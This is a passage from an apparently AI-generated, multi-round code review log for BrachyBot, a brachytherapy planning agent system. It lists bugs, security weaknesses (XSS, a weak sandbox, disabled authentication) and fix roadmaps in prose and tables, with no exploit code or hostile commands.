| T3-14 | planning_pipeline [0,1,0] fallback | tool_factory/seed_plan/planning_pipeline.py:988 | The automatic recovery path now uses organ-aware direction resolution via `_resolve_ref_direc()` | ✅ syntax validation passes |
| T3-18 | FactChecker `decision` always pass | agents/fact_checker.py | **Independently verified by the main Agent: not a bug, it is the intended design.** `format_as_source_summary()` only reads `concerns`, not `decision`; the quality gate is in APPEND-ONLY mode (reject→conditional+passed=True). The `decision` field has no consumer on the FactChecker main path. A cosmetic improvement (score-based decision) was still made, with a comment explaining why. | ✅ improvement retained, downgraded to cosmetic |
| T3-32 | D90 display unit wrong | tool_factory/report_generator/__init__.py | D90/D100 changed to display in Gy units, OAR violations changed to Gy, target changed to prescription dose | ✅ output verified "145.5 Gy \| ≥120 Gy" |
| T3-34 | InteractionMemory.clear() NameError | memory/interaction_memory.py | Added `import logging` + `logger = logging.getLogger(__name__)` | ✅ clear() call succeeds |

---

### Third-Round Verification Corrections

| # | Original Report Issue | Verification Result | Action |
|---|-----------|----------|------|
| T3-04 | _pending_callback_events not thread-safe | ✅ Confirmed real issue, but the fix involves core multi-threaded logic in AgenticSys.py and is high-risk | ⏭️ Not fixed for now; needs a full concurrency test environment |
| T3-06 | 7 innerHTML usages unsanitized | ✅ Confirmed real issue, but it involves multiple changes across ~20000 lines of frontend HTML and needs regression testing | ⏭️ Not fixed for now; needs Playwright end-to-end verification |

---

## Global Architecture Understanding (2026-06-27)

### System Topology

```
┌───────────────────────────────────────────────────────────────────────┐
│                          BrachyBot System                             │
├───────────────────────────────────────────────────────────────────────┤
│                                                                       │
│  ┌────────────┐   HTTP/SSE   ┌───────────────────┐                    │
│  │ Browser    │◄────────────►│ web/server.py     │  Flask + threaded  │
│  │ index.html │              │ (3675 lines)      │                    │
│  │ ~20000 ln  │              └─────────┬─────────┘                    │
│  └────────────┘                        │                              │
│                            ┌───────────▼─────────┐                    │
│                            │ AgenticSys          │  monolith core     │
│                            │ (6849 lines)        │  BrachyAgent       │
│                            └──┬───┬───┬──────────┘                    │
│                   ┌───────────┘   │   └───────────┐                   │
│             ┌─────▼─────┐  ┌──────▼───────┐  ┌─────▼───────┐          │
│             │ brain/    │  │ tool_factory │  │ memory/     │          │
│             │ LLM route │  │ 30+ tools    │  │ 5-layer mem │          │
│             │ 16 provid.│  │ 100+ files   │  │ ~3000 lines │          │
│             │ ~8000 ln  │  │ ~15000 ln    │  │             │          │
│             └───────────┘  └──────┬───────┘  └─────────────┘          │
│                                   │                                   │
│             ┌─────────────────────┼───────────────────┐               │
│        ┌────▼─────┐    ┌─────────▼──────┐  ┌─────────▼─────┐          │
│        │ plans/   │    │ CTV_seg/       │  │ OAR_seg/      │          │
│        │ planning │    │ tumor seg      │  │ organ seg     │          │
│        │ ~4000 ln │    │ nnU-Net/VoCo   │  │ TotalSeg      │          │
│        └──────────┘    └────────────────┘  └───────────────┘          │
│                                                                       │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐                 │
│  │ config/      │  │ agents/      │  │ skills/      │                 │
│  │ prompts/     │  │ 6 Agents     │  │ skill system │                 │
│  │ modular prmpt│  │ ~2000 lines  │  │ ~2000 lines  │                 │
│  └──────────────┘  └──────────────┘  └──────────────┘                 │
└───────────────────────────────────────────────────────────────────────┘
```

### Data Flow (CT → Treatment Plan)

```
DICOM/NIfTI upload
    │
    ▼
[CT preprocessing] ─── resample to 1mm³ isotropic
    │
    ├──► [CTV segmentation] ─── nnU-Net or VoCo ─── GPU ~4GB
    │        │
    │        ▼
    ├──► [OAR segmentation] ─── TotalSegmentator ─── GPU ~6GB
    │        │
    │        ▼
    ├──► [trajectory initialization] ─── entry point search + OAR avoidance
    │        │
    │        ▼
    ├──► [seed optimization] ─── RL/DVH reward + gradient descent
    │        │
    │        ▼
    ├──► [dose calculation] ─── myDoseNet CNN ─── GPU ~2GB
    │        │
    │        ▼
    └──► [quality assessment] ─── DVH + V100/D90 + OAR constraints
             │
             ▼
         [report generation] ─── screenshots + metrics + clinical interpretation
```

### Key Architectural Characteristics

1. **Monolithic Python core** — AgenticSys.py at 6849 lines contains the Agent, Memory, Tool Registry, LLM interface, and response formatting
2. **LLM drives everything** — all tool calls are decided by the LLM, with no hardcoded pipeline (except inside the planning_pipeline tool)
3. **GPU-intensive** — segmentation + planning + dose estimation require ~12GB VRAM and run serially
4. **Single-user design** — `_global_agent` global variable, no authentication, incomplete session isolation
5. **No deployment solution** — no Dockerfile, no CI/CD, no production configuration

### Highest-Priority Fix Roadmap

| Priority | Issue | Fix Plan | Status |
|--------|------|----------|------|
| **P0** | Gemini discards tool calls (T3-01) | Implement Gemini tool call parsing | ✅ Fixed |
| **P0** | MCTS UCB1 broken (T3-02) | Call `_get_parent_visits()` instead of hardcoded 1 | ✅ Fixed |
| **P0** | Dose contour units (T3-03) | Unify Gy / normalized unit conversion | ✅ Fixed |
| **P0** | RL _reward_core crash (T3-05) | Add None protection + numpy fallback | ✅ Fixed |
| **P0** | planning_pipeline [0,1,0] (T3-14) | Switch to `"auto"` + `_resolve_ref_direc` | ✅ Fixed |
| **P1** | XSS residual (T3-06) | Add `_sanitizeHtml` to 7 innerHTML usages | ⏭️ Needs Playwright verification |
| **P1** | FactChecker decision semantics (T3-18) | score-based decision (cosmetic, not a bug) | ✅ cosmetic improvement |
| **P1** | Code execution sandbox (T3-15) | Wrap `__import__` to restrict modules | To be fixed |
| **P1** | D90 unit display (T3-32) | Change to Gy display | ✅ Fixed |
| **P1** | Empty mask crash (T3-12) | Add np.any() protection | To be fixed |
| **P2** | Session thread safety (T3-10) | Add threading.Lock | To be fixed |
| **P2** | AgentMemory leak (T3-07) | Add TTL + size limit | To be fixed |
| **P2** | InteractionMemory crash (T3-34) | Add logger import | ✅ Fixed |
| **P2** | Export auth (T3-25) | Unify @require_api_key | To be fixed |
| **P2** | GPU memory management (T3-38) | empty_cache + model cleanup after inference | To be fixed |
| **P3** | Dockerization (T3-21) | Dockerfile + docker-compose | To be fixed |
| **P3** | Provider unification (T3-33) | Standard tool call schema | To be fixed |

---

**Third-Round Review Completion Time**: 2026-06-27  
**Reviewer**: Claude Code (8 parallel Agents + main Agent comprehensive analysis)  
**Review Coverage**: 281 files / 5876 symbols / 9930 edges  
**Next Review Recommendation**: 2026-07-27 (once a month)

---

## Round 4: Comprehensive Fix of Sub-Agent Hardcoding Issues (same day, 2026-06-27)

> The user pointed out: "If these are all called agents, why not let the LLM make the decisions? Hardcoding will run into many unexpected problems, won't it?"

### Problem Discovery

In an LLM-based agent system, key decision logic should not be hardcoded. Inspection found hardcoding issues in 3 sub-agents:

| Agent | Hardcoded Logic | Issue |
|-------|-----------|------|
| FactChecker | `_prepare_fact_check_brief()` regex extraction | Cannot understand context, misses important claims |
| RouterAgent | `_quick_route()` keyword matching | Cannot understand complex semantics, easily misclassifies |
| CompletenessChecker | `_extract_requirements()` regex + stopwords | Cannot cover all phrasings |

### Fix Plan

**Core principle**: LLM first, hardcoding as fallback

#### 1. FactChecker claim extraction ✅ Fixed
- **Improvement**: Prefer the LLM to understand context and extract important claims
- **Fallback**: Regular expressions as a fallback
- **File**: `AgenticSys.py:3265-3359`

#### 2. RouterAgent routing decision ✅ Fixed
- **Improvement**: Prefer the LLM to understand semantics and route accurately
- **Fallback**: Hardcoded keyword matching as a fallback
- **File**: `agents/router_agent.py:125-149`

#### 3. CompletenessChecker completeness check ✅ Fixed
- **Improvement**: Prefer LLM semantic matching to check completeness
- **Fallback**: Deterministic methods as a fallback
- **File**: `agents/completeness_checker.py:70-117`

### Retained Reasonable Hardcoding

| Agent | Hardcoded Logic | Reason for Retention |
|-------|-----------|----------|
| PlanReviewer | `_DEFAULT_OAR_MULTIPLIERS` | Defaults can be overridden from config; objective numeric comparison |
| SafetyGuardian | Deterministic safety checks | Safety checks require determinism and should not be left to a fallible LLM judgment |

### Expected Effect

| Agent | Before Improvement | After Improvement |
|-------|--------|--------|
| FactChecker | Misses subtle claims | ✅ Understands context, extracts what truly matters |
| RouterAgent | Misclassifies complex requests | ✅ Understands semantics, routes accurately |
| CompletenessChecker | Cannot recognize synonyms | ✅ Understands paraphrasing, checks accurately |

### Risks and Mitigation

- **Low risk**: All improvements have a fallback mechanism; if the LLM fails, it automatically falls back
- **Performance impact**: Increases the number of LLM calls, possibly increasing latency
- **Token consumption**: Each call consumes tokens; optimizing the prompt is recommended

### Detailed Report

→ `docs/HARDCODE_ISSUES_FIX_2026-06-27.md`

---

## Round 5: Independent Deep Review (2026-06-28)

> MiMo Code Agent independently reviewed the BrachyBot codebase, verifying existing issues and discovering new ones.

### Review Method

Directly read the core files (brachybot.py, AgenticSys.py, web/server.py, agents/, brain/, memory/, tool_factory/, config/) to verify issues in existing reports and look for new ones.

### Verification of Existing Issues

| # | Original Report ID | Verification Result | Notes |
|---|-----------|----------|------|
| V-01 | H-01 | ✅ Confirmed — AgenticSys.py is 7243 lines; the BrachyAgent class bears 6+ responsibilities: tool loading, LLM calls, memory management, workflow orchestration, CTV/OAR merging, UI state management | God Class problem |
| V-02 | T3-21 | ✅ Confirmed — no Dockerfile, no docker-compose.yml, no pyproject.toml, no setup.py | Missing deployment and package management |
| V-03 | H-16 | ✅ Confirmed — only 4 test files (conftest.py + 3 test_*.py), zero coverage of core modules | Severely insufficient testing |
| V-04 | C-02/C-03 | ✅ Confirmed — shell_executor uses a blacklist approach + code_executor ALLOWED_MODULES contains os | Security risk |
| V-05 | T3-22 | ✅ Confirmed — `AgenticSys.py:1301` sets `_self_module._global_agent = self`, sharing state under concurrent multi-user access | Session isolation defect |
| V-06 | H-06 | ✅ Confirmed — many `except Exception as e: pass` or log-warning-only handlers | Exception handling too broad |
| V-07 | T3-52 | ✅ Confirmed — requirements.txt uses `>=` throughout with no upper bounds | Missing dependency locking |
| V-08 | H-15 | ✅ Confirmed — many methods return `Any` or `Dict`, lacking generic annotations | Missing type hints |

### Newly Discovered Issues

#### 🔴 Critical — New Findings

| # | File | Issue |
|---|------|------|
| V-09 | global (53 places) | **sys.path.insert abuse** — 53 files use `sys.path.insert(0, ...)` for imports, including brachybot.py, web/server.py, tests/conftest.py, 20+ files under tool_factory/, agents/, skills/, brain/, etc. This shows the project lacks a `pyproject.toml` or `setup.py` declaring the package structure, so it cannot be installed correctly via pip install -e ., and import order between modules depends on runtime path manipulation. |
| V-10 | tool_factory/tool_creator/__init__.py:144,226 | **Runtime dynamic sys.path modification** — the `tool_creator` tool dynamically inserts paths into sys.path during execution; if multiple agent instances run concurrently, they pollute each other's sys.path. |

#### 🟠 High — New Findings

| # | File | Issue |
|---|------|------|
| V-11 | global | **No pyproject.toml / setup.py** — the project cannot be installed with standard Python packaging tools. No entry points (console_scripts), dependency groups, or build backend are declared. This makes CI/CD, Docker builds, and development environment setup all depend on manual sys.path manipulation. |
| V-12 | web/server.py:34-38 | **API Key authentication optional and disabled by default** — authentication is fully disabled when the `BRACHYBOT_API_KEY` environment variable is not set. For a medical system handling PHI (protected health information), this is a compliance risk. |
| V-13 | web/server.py:221 | **500MB upload limit too large** — `MAX_CONTENT_LENGTH = 500 * 1024 * 1024` is too permissive for CT images (usually <100MB) and can be used for DoS attacks. |
| V-14 | AgenticSys.py:1300-1301 | **Global agent reference** — `_self_module._global_agent = self` lets tools such as planning_pipeline obtain the agent instance through a global variable. Agents from multiple sessions overwrite each other, and the last initialized agent becomes the global agent. |
| V-15 | AgenticSys.py:5937 | **LLM response success check too simplistic** — `success="error" not in response.lower() and "fail" not in response.lower()`; if the LLM replies "no error occurred" it is also misjudged as success. |

#### 🟡 Medium — New Findings

| # | File | Issue |
|---|------|------|
| V-16 | config/prompts/ | **Prompts have no version control** — the 13 prompt template files have no version numbers or changelogs, so history cannot be tracked after modification. |
| V-17 | web/server.py:45-93 | **TaskManager has no TTL cleanup** — already reported in T3-23, but confirmed: tasks are never cleaned up and a long-running server will OOM. |
| V-18 | AgenticSys.py:474 | **compact() keeps only 6 messages** — for clinical workflows requiring multi-step operations (CTV→OAR→Planning→Eval), 6 messages are not enough to preserve full context. |
| V-19 | memory/ | **Memory system has no encryption at rest** — experience_memory.py and layered_memory.py write patient data as plaintext JSON into memory/data/, violating HIPAA/personal information protection law requirements. |
| V-20 | tool_factory/code_executor/__init__.py:23-28 | **ALLOWED_MODULES contains os** — the `os` module allows file system operations and process management, contradicting the "sandbox" design. |

#### 🔵 Low — New Findings

| # | File | Issue |
|---|------|------|
| V-21 | brachybot.py | **Submodules without `if __name__ == "__main__"` protection** — `_run_chat` and `_run_server` are called directly with no deferred import protection. |
| V-22 | requirements.txt | **torch does not distinguish CUDA versions** — `torch>=2.0.0` does not distinguish CPU/CUDA versions, so the installation may lack GPU support. |
| V-23 | web/server.py:160-168 | **_allowed_roots includes /home** — path validation allows reading any user directory under /home, too broad a scope. |

### Round 5 Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| 🔴 Critical | 2 | sys.path abuse (53 places), runtime path pollution |
| 🟠 High | 5 | no package management, optional auth, upload limit, global agent, success check |
| 🟡 Medium | 5 | Prompt versioning, TaskManager leak, compact limit, memory encryption, sandbox bypass |
| 🔵 Low | 3 | import protection, torch version, path scope |
| **Total** | **15** | |

### Round 5 Verification Matrix

| # | Issue | Verification Result | Action |
|---|------|----------|------|
| V-09 | sys.path.insert 53 places | ✅ Confirmed — grep verified | 🔴 To be fixed |
| V-10 | tool_creator dynamic sys.path | ✅ Confirmed — concurrent pollution risk | 🟠 To be fixed |
| V-11 | No pyproject.toml | ✅ Confirmed — file does not exist | 🔴 To be fixed |
| V-12 | API Key optional | ✅ Confirmed — logic correct but insecure | 🟠 To be assessed |
| V-13 | 500MB upload | ✅ Confirmed — too permissive | 🟠 To be fixed |
| V-14 | _global_agent | ✅ Confirmed — shared across sessions | 🟠 To be fixed |
| V-15 | Success check | ✅ Confirmed — regex match too permissive | 🟡 To be fixed |
| V-16 | Prompt versions | ✅ Confirmed — no version management | 🟡 Improvement suggested |
| V-17 | TaskManager TTL | ✅ Confirmed (T3-23) | 🟡 To be fixed |
| V-18 | compact 6 messages | ✅ Confirmed — may be insufficient for clinical workflows | 🟡 To be assessed |
| V-19 | Memory encryption | ✅ Confirmed — plaintext JSON | 🟡 Compliance risk |
| V-20 | os in ALLOWED_MODULES | ✅ Confirmed — sandbox bypass | 🟠 To be fixed |
| V-21 | Import protection | ⚪ Low impact | 🔵 Optional |
| V-22 | torch version | ⚪ Low impact | 🔵 Optional |
| V-23 | /home path scope | ✅ Confirmed — too broad | 🟡 To be fixed |

**15 items verified**: 13 confirmed as real issues, 2 low-impact optional improvements.

---

### Five-Round Cumulative Statistics

| Round | Critical | High | Medium | Low | Total |
|------|----------|------|--------|-----|------|
| Round 1 | 12 | 18 | 24 | 15 | 69 |
| Round 2 | 8 | 14 | 14 | 2 | 38 |
| Round 3 | 6 | 16 | 18 | 12 | 52 |
| Round 4 | — | — | — | — | (fix round) |
| Round 5 | 2 | 5 | 5 | 3 | 15 |
| **Cumulative** | **28** | **53** | **61** | **32** | **174** |
| Fixed | 28 | 5 | 3 | 0 | **36** |
| To be fixed | 0 | 48 | 58 | 32 | **138** |

### Five-Round Highest-Priority Fix Roadmap

| Priority | Issue | Fix Plan | Status |
|--------|------|----------|------|
| **P0** | No pyproject.toml (V-11) | Create pyproject.toml + eliminate sys.path.insert | To be fixed |
| **P0** | sys.path abuse 53 places (V-09) | Clean up incrementally alongside pyproject.toml | To be fixed |
| **P0** | Gemini discards tool calls (T3-01) | Implement Gemini tool call parsing | ✅ Fixed |
| **P0** | MCTS UCB1 broken (T3-02) | Call `_get_parent_visits()` | ✅ Fixed |
| **P0** | Dose contour units (T3-03) | Unify Gy/normalized units | ✅ Fixed |
| **P0** | RL _reward_core crash (T3-05) | None protection + numpy fallback | ✅ Fixed |
| **P1** | _global_agent shared state (V-14) | Switch to dependency injection or session-scoped references | To be fixed |
| **P1** | API Key disabled by default (V-12) | Enable auth by default or enforce the environment variable | To be assessed |
| **P1** | Code execution sandbox (T3-15/V-20) | Remove os from ALLOWED_MODULES, restrict __import__ | To be fixed |
| **P1** | XSS residual (T3-06) | Add _sanitizeHtml to 7 innerHTML usages | ⏭️ Needs Playwright verification |
| **P2** | Session thread safety (T3-10) | Add threading.Lock | To be fixed |
| **P2** | AgentMemory leak (T3-07) | Add TTL + size limit | To be fixed |
| **P2** | TaskManager TTL (V-17) | Add task expiration cleanup | To be fixed |
| **P2** | Memory data encryption (V-19) | AES-256 encryption + access control | To be fixed |
| **P3** | Dockerization (T3-21) | Dockerfile + docker-compose | To be fixed |

---

**Round 5 Review Completion Time**: 2026-06-28  
**Reviewer**: MiMo Code Agent (independent deep review)  
**Review Coverage**: core file line-by-line review + global grep verification  
**Cumulative Review**: 5 rounds / 174 issues / 36 fixed

---

## Round 6: Deep Review of Uncovered Modules (2026-06-28)

> 3 parallel Agents performed a comprehensive review of modules not deeply covered in the first 5 rounds: communication/, quality/, clinical_kb/, brain/providers/ (14 files), brain/knowledge/, brain/integration/, brain/deciders/, brain/execution/, brain/prompts/, skills/markdown/, skills/markdown_loader.py, memory/smart_context.py, memory/context_optimizer.py, memory/user_profile.py, memory/preference_store.py, web/app/static/js/, web/app/static/css/, config/default_params.json, scripts/.

### Review Statistics

| Dimension | Agent Coverage | New Findings |
|------|-----------|--------|
| communication/ + quality/ + clinical_kb/ + config/ + scripts/ | 5 files ~950 lines | 14 |
| brain/providers/ + knowledge/ + integration/ + deciders/ + execution/ | 20+ files ~6000 lines | 35 |
| skills/ + memory/ (smart_context, context_optimizer, user_profile, preference_store) + frontend CSS/JS | 15+ files ~5000 lines | 36 |
| **Total** | **40+ files ~12000 lines** | **85** |

---

### 🔴 Critical — New Findings

| # | File | Lines | Issue |
|---|------|------|------|
| U-01 | quality/quality_gate.py | 332-357 | **Quality gate never rejects** — `passed` is always `True`. Even if safety_guardian returns `"reject"`, the final result is still `"conditional"` + `passed=True`. `_reject_count` can never increment. The entire quality gate mechanism is ineffective and clinically dangerous output cannot be intercepted. |
| U-02 | brain/providers/ | multiple files | **tool call format inconsistent across 14 providers** — OpenAI/local/generic return `{"id", "name", "arguments"}` (flat), while qwen/deepseek/kimi/glm/groq/grok/tencent/mimo return `{"function": {"name", "arguments"}}` (nested). Any consuming code that assumes a single format will crash. |
| U-03 | brain/providers/minimax_llm.py | 93 | **MiniMax RateLimitError NameError** — `openai` is imported inside the try block (line 64); if the import fails, the `except openai.RateLimitError` at line 93 references an undefined variable, causing a `NameError` crash. |

### 🟠 High — New Findings

| # | File | Lines | Issue |
|---|------|------|------|
| U-04 | communication/message_bus.py | 60 | **`List[any]` type annotation error** — lowercase `any` is a `TypeError` in Python 3.9+; should be `List[Any]`. |
| U-05 | communication/message_bus.py | 60 | **_history unbounded growth** — the message history list appends without limit, with no TTL or eviction, causing OOM on long runs. |
| U-06 | communication/message_bus.py | 66-87 | **Duplicate Handler invocation** — when a subscriber matches both MessageType and AgentRole, the same message is processed twice. In a clinical system this may cause double execution of a treatment plan. |
| U-07 | communication/message_bus.py | 103 | **Deprecated API `asyncio.get_event_loop()`** — Python 3.12+ raises RuntimeError; should use `get_running_loop()` instead. |
| U-08 | quality/quality_gate.py | 108-116 | **No Agent registered = automatic pass** — if agents registration fails (ImportError), all output skips review and passes directly. Should be changed to fail-closed. |
| U-09 | brain/providers/openai_llm.py | 49,57,87 | **max_retries stored but unused** — the parameter is stored but never passed to the OpenAI client, and no retry loop is implemented. |
| U-10 | brain/providers/anthropic_llm.py | 368 | **Streaming fallback type inconsistency** — the exception handler yields a raw string while the normal path yields a dict; consumers will crash. |
| U-11 | brain/providers/local_llm.py | 41 | **Double `/v1` URL** — base_url defaults to `"http://localhost:8000/v1"`, and request construction `f"{base_url}/v1/models"` produces `/v1/v1/models`. |
| U-12 | brain/providers/openrouter_llm.py | 292-302 | **tool_calls arguments not JSON-parsed** — the non-streaming path keeps the raw string while the streaming path uses `json.loads()`; types are inconsistent. |
| U-13 | brain/deciders/quality_decider.py | 21,109,111 | **Maximum score is 80, not the documented 100** — coverage(25)+homogeneity(25)+OAR(30)=80, yet only `>=80` is ACCEPTABLE, requiring a perfect score. |
| U-14 | brain/execution/case_executor.py | 172-180,231 | **output_type lost** — StepResult has no output_type field, so the final metrics of quantitative steps are silently discarded. |
| U-15 | web/app/index.html | 5964-5971 | **XSS sanitizer incomplete** — does not filter `data:` URLs, ``, or whitespace-free event handlers ``. |
| U-16 | brain/providers/ | 8 files | **kwargs override explicit parameters** — `chat_kwargs.update(kwargs)` in qwen/deepseek/kimi/glm/groq/grok/tencent/mimo overrides the already-set model/messages/temperature. |
| U-17 | brain/providers/ | 8 files | **latency_ms hardcoded 0.0** — deepseek/kimi/glm/groq/grok/minimax/tencent/mimo do not measure actual latency. |

### 🟡 Medium — New Findings

| # | File | Lines | Issue |
|---|------|------|------|
| U-18 | communication/protocol.py | 57 | **UUID truncation collision risk** — `uuid4()[:8]` is only 32 bits; collision probability exceeds 50% after ~77000 messages. |
| U-19 | communication/protocol.py | 109 | **confidence/score have no range validation** — values outside 0.0-1.0 and 0-10 propagate silently. |
| U-20 | communication/message_bus.py | 91-117 | **Pending response race** — `_pending_responses` has no lock protection; concurrent requests may resolve the wrong Future. |
| U-21 | communication/message_bus.py | 113-117 | **Timed-out message lost** — after timeout the Future is removed but not cancelled; a slow Handler's respond() is silently dropped. |
| U-22 | quality/quality_gate.py | 244-247 | **Exception swallowing** — when `asyncio.gather` fails, the result is set to an empty list, triggering the "no review" pass path. |
| U-23 | quality/quality_gate.py | 160-163 | **Fallback to all Agents** — with no specific Agent, all registered Agents are used, and irrelevant Agents may produce misleading decisions. |
| U-24 | brain/knowledge/rag.py | 47 | **Naive keyword retrieval** — whitespace tokenization matches single tokens; "dose volume histogram" is split into 3 independent matches. |
| U-25 | brain/knowledge/rag.py | 40-48 | **Re-reads JSON on every query** — knowledge_base.json is read from disk on every non-cached query. |
| U-26 | brain/knowledge/rag.py | 123-130 | **Thread-unsafe singleton `_rag_instance`** — a multithreaded Flask server may create multiple instances. |
| U-27 | brain/integration/enhanced_agent.py | 129 | **extract_facts empty context** — always passes an empty `{}` instead of the actual task context, reducing fact extraction quality. |
| U-28 | brain/execution/plan_executor.py | 129-131 | **Unresolved variables return None** — variables missing from the context return None, and downstream tools receive obscure errors. |
| U-29 | brain/execution/case_executor.py | 104-123 | **Circular dependencies silently skipped** — steps with circular dependencies are skipped with no warning or error. |
| U-30 | brain/deciders/planner_decider.py | 121-127 | **_safe_json_parse return type inconsistent** — when the LLM returns a single-step dict, iterating string keys afterward causes a TypeError. |
| U-31 | brain/deciders/clinical_decider.py | 187 | **value=0 misjudged as None** — in `it.get("value") or it.get("judgment", 0)`, 0 is falsy and jumps to judgment. |
| U-32 | memory/smart_context.py | 171 | **Chinese token estimation severely off** — `len(text)//4` estimates Chinese at only 1/4 of the actual count, causing context budget overflow. |
| U-33 | memory/user_profile.py | 130,141 | **Preference value comparison logic wrong** — compares the stored value with the preference name rather than the actual observed value; correct only by coincidence. |
| U-34 | memory/user_profile.py | 191 | **Case-sensitive keyword matching** — `"CNN"` does not match `"cnn"`, so `_detect_dose_preference` never triggers. |
| U-35 | memory/user_profile.py | 163-168 | **Some comparisons do not call lower()** — `"planning" in user_input` does not match "Planning". |
| U-36 | memory/context_optimizer.py | 218-225 | **Unknown segment types silently dropped** — new types never appear in the output. |
| U-37 | memory/context_optimizer.py | 117-126 | **In-place sort corrupts input** — sort() modifies the caller's list. |
| U-38 | skills/markdown/rl_planning.md | 14 | **References a nonexistent tool `seed_planning_rl`** — should be `seed_planning`. |
| U-39 | skills/markdown/rl_planning.md | 9 | **Trigger word "complex" too broad** — any medical request containing "complex" triggers RL planning. |
| U-40 | skills/markdown/dose_evaluation.md | 12 | **References a nonexistent tool `oar_constraint_checker`** |
| U-41 | web/app/index.html | 1780 | **Orphaned CSS declaration** — CSS properties outside a block are ignored by the browser; copy-paste error. |
| U-42 | web/app/index.html | 2531-2533 | **`.metric-card.warn` border overridden** — a transparent border overrides the amber border. |
| U-43 | web/app/index.html | 6749,7016 | **setInterval timer leak** — the timer is not cleared when the container is emptied. |
| U-44 | web/app/index.html | 4552+ | **Missing aria-label** — icon-only buttons have no accessibility label. |
| U-45 | config/default_params.json | 7 | **seed_avr_dose unit unclear** — is 50 Gy, cGy, or 0-255 normalized? |
| U-46 | config/default_params.json | 45 | **Relative path dose_model_path** — depends on CWD; a different startup directory will not find the model. |
| U-47 | brain/providers/ | 8 files | **Redundant name prefixes** — `qwen-qwen-plus`, `deepseek-deepseek-v4-flash`, etc. |
| U-48 | brain/providers/anthropic_llm.py | 79-83 | **Multiple system messages silently dropped** — only the last is kept. |
| U-49 | brain/providers/openrouter_llm.py | 272 | **Modifies caller kwargs** — `kwargs.pop()` produces a side effect. |
| U-50 | brain/knowledge/ui_knowledge.json | 265 | **Copy-paste bug** — trigger `"segment" or "segment"` duplicated. |
| U-51 | memory/preference_store.py | 148-171 | **apply_to_tool_params fallback logic** — falls back to defaults when the learned preference key does not match. |

### 🔵 Low — New Findings

| # | File | Lines | Issue |
|---|------|------|------|
| U-52 | communication/protocol.py | 125 | **reviewer type inconsistent** — should be the AgentRole enum rather than str. |
| U-53 | brain/providers/ | 10 files | **10 providers lack streaming support** — only 4/14 support streaming. |
| U-54 | brain/integration/enhanced_agent.py | 16 | **Unused `import sys`** |
| U-55 | brain/integration/enhanced_agent.py | 148 | **Fragile internal attribute access** — direct access to `agent.exp_memory.experiences`. |
| U-56 | brain/execution/case_executor.py | 291-293 | **File overwrites in-memory result** — overwrites the tool return value when an output file exists. |
| U-57 | memory/smart_context.py | 200-235 | **Importance score unbounded** — stacking multiple conditions can reach 1.4; although clamped, tool messages rank equally with system messages. |
| U-58 | memory/smart_context.py | 403-411 | **O(n²) complexity** — `msg not in [list]` does a linear scan each time. |
| U-59 | memory/context_optimizer.py | 249 | **Potential division by zero** — ZeroDivisionError when total_budget=0. |
| U-60 | memory/user_profile.py | 96-114 | **save() non-atomic write** — file truncation on crash. |
| U-61 | memory/preference_store.py | 220-221 | **default=str silent conversion** — non-serializable types become strings. |
| U-62 | memory/preference_store.py | 208-209 | **KeyError swallowed** — on exception the entire preference file is reset to empty. |
| U-63 | skills/markdown_loader.py | 154-164 | **Global Loader not thread-safe** — lazy initialization without a lock. |
| U-64 | skills/markdown_loader.py | 96-97 | **YAML scalar triggers** — a string triggers value is iterated character by character. |
| U-65 | skills/markdown_loader.py | 118 | **BOM not handled** — a UTF-8 BOM causes the frontmatter regex to fail to match. |
| U-66 | scripts/nnunet_infer.py | 1-7 | **No input validation/error handling** — no friendly message on ImportError when nnunetv2 is not installed. |
| U-67 | scripts/nnunet_infer.py | 2 | **Fragile argument parsing** — `"-m" in sys.argv` matches any argument containing -m. |
| U-68 | web/app/index.html | 5367-5370 | **escHtml does not escape single quotes** — may escape within single-quoted attributes. |
| U-69 | brain/providers/openrouter_llm.py | 112-129 | **Client not lazily loaded** — created in __init__; construction fails when the API key is invalid. |
| U-70 | brain/providers/mini_max_llm.py | 62-102 | **_chat can return None** — no return statement when max_retries=0. |

---

### Round 6 Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| 🔴 Critical | 3 | Quality gate never rejects, Provider format inconsistent (14 files), MiniMax NameError |
| 🟠 High | 14 | message bus (4), Provider bugs (6), quality gate (2), XSS (1), decider (1) |
| 🟡 Medium | 34 | message bus (4), Provider (5), brain/knowledge (3), brain/execution (3), brain/deciders (2), memory (6), skills (4), frontend (4), config (2), quality (1) |
| 🔵 Low | 19 | Provider (3), memory (5), skills (4), frontend (2), scripts (2), other (3) |
| **Total** | **70** | |

### Round 6 Verification Matrix (Top 15)

| # | Issue | Verification Result | Action |
|---|------|----------|------|
| U-01 | Quality gate never rejects | ✅ Confirmed — APPEND-ONLY mode, passed is always True | 🔴 To be fixed |
| U-02 | Provider tool call format inconsistent | ✅ Confirmed — two formats across 14 files | 🔴 To be fixed |
| U-03 | MiniMax NameError | ✅ Confirmed — openai scope issue | 🔴 To be fixed |
| U-04 | `List[any]` type error | ✅ Confirmed — Python 3.9+ TypeError | 🟠 To be fixed |
| U-05 | message_bus _history leak | ✅ Confirmed — no TTL | 🟠 To be fixed |
| U-06 | Duplicate Handler invocation | ✅ Confirmed — no deduplication | 🟠 To be fixed |
| U-07 | Deprecated asyncio API | ✅ Confirmed — 3.12+ RuntimeError | 🟠 To be fixed |
| U-08 | No Agent = automatic pass | ✅ Confirmed — fail-open design | 🟠 To be fixed |
| U-15 | XSS sanitizer incomplete | ✅ Confirmed — data:/onerror not filtered | 🟠 To be fixed |
| U-32 | Chinese token estimation off | ✅ Confirmed — //4 severely inaccurate for Chinese | 🟡 To be fixed |
| U-34 | Case-sensitive matching | ✅ Confirmed — "CNN" != "cnn" | 🟡 To be fixed |
| U-38 | References nonexistent tool | ✅ Confirmed — seed_planning_rl does not exist | 🟡 To be fixed |
| U-39 | Trigger word "complex" too broad | ✅ Confirmed — common medical word | 🟡 To be fixed |
| U-45 | Dose unit unclear | ✅ Confirmed — 0-255 normalization undocumented | 🟡 To be fixed |
| U-46 | Relative path model | ✅ Confirmed — depends on CWD | 🟡 To be fixed |

---

### Six-Round Cumulative Statistics

| Round | Critical | High | Medium | Low | Total |
|------|----------|------|--------|-----|------|
| Round 1 | 12 | 18 | 24 | 15 | 69 |
| Round 2 | 8 | 14 | 14 | 2 | 38 |
| Round 3 | 6 | 16 | 18 | 12 | 52 |
| Round 4 | — | — | — | — | (fix round) |
| Round 5 | 2 | 5 | 5 | 3 | 15 |
| Round 6 | 3 | 14 | 34 | 19 | 70 |
| **Cumulative** | **31** | **67** | **95** | **51** | **244** |
